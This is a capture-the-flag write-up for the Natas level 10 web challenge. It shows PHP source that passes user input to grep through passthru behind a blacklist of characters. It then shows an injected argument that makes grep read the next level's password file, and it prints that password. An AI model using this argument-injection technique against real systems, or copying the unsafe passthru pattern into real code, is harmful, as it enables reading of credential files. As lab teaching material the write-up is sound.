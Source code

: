 # Writeup level 10
This challenge is almost the same as the one before. The only differnce is that they have built in some filters.

** Source Code **
```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
Okay so what characters are we not allowed to use?  

- ";"
- "|"
- "&"

That's not really a problem because we don't need those operations to abuse grep.  
What does grep expect?  
grep [OPTIONS] PATTERN [FILE...]  
>grep searches the named input FILEs (or standard input if no files are named, or if a single hyphen-minus (-) is given as file name) for lines containing a match to the given PATTERN. By default, grep prints the matching lines.

So it can search multiple files!  
We can simply search the password file without using any restricted characters.  

**Our input**:  
c /etc/natas_webpass/natas11  
What the **application** sees:  
grep -i c /etc/natas_webpass/natas11 dictionary.txt

### Result
![](natas10-result.png) 

The password is:  
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

